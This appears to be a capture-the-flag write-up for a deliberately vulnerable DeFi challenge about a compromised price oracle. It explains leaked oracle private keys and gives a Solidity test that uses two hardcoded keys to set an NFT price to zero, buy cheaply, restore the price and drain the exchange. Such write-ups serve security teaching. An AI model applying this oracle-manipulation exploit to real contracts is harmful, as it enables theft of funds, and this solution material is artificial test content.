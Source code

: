 ### Location
The vulnerability exists in the `TrustfulOracle` contract, specifically in how it handles price updates from trusted sources. The private keys of these sources are leaked in the server response.

### Impact
An attacker can:
1. Decode the leaked hex strings to obtain private keys
2. Use these keys to impersonate trusted oracle sources
3. Manipulate NFT prices to drain the exchange's funds

### Root Cause
The vulnerability arises from two main issues:

1. **Compromised Private Keys**: The hex strings in the server response are base64-encoded private keys of the trusted oracle sources. These can be decoded to obtain the actual private keys.

2. **Lack of Price Validation**: The oracle accepts any price from trusted sources without validation, allowing malicious price manipulation.

## Proof of Concept

```solidity
function test_compromised() public checkSolved {
    // Decode the leaked hex strings to get private keys
    uint256 privateKey1 = 0x7d15bba26c523683bfc3dc7cdc5d1b8a2744447597cf4da1705cf6c993063744;
    uint256 privateKey2 = 0x68bd020ad186b647a691c6a5c0c1529f21ecd09dcc45241402ac60ba377c4159;

    // Get the corresponding addresses
    address source1 = vm.addr(privateKey1);
    address source2 = vm.addr(privateKey2);

    // 1. Set price to 0 using both sources to ensure median is 0
    vm.startPrank(source1);
    oracle.postPrice("DVNFT", 0);
    vm.stopPrank();

    vm.startPrank(source2);
    oracle.postPrice("DVNFT", 0);
    vm.stopPrank();

    // 2. Buy NFT for almost free (1 wei)
    vm.startPrank(player);
    uint256 id = exchange.buyOne{value: 1 wei}();
    vm.stopPrank();

    // 3. Reset price to initial value using both sources
    vm.startPrank(source1);
    oracle.postPrice("DVNFT", INITIAL_NFT_PRICE);
    vm.stopPrank();

    vm.startPrank(source2);
    oracle.postPrice("DVNFT", INITIAL_NFT_PRICE);
    vm.stopPrank();

    // 4. Sell NFT and transfer funds to recovery
    vm.startPrank(player);
    nft.approve(address(exchange), id);
    exchange.sellOne(id);
    payable(recovery).transfer(EXCHANGE_INITIAL_ETH_BALANCE);
    vm.stopPrank();
}
```
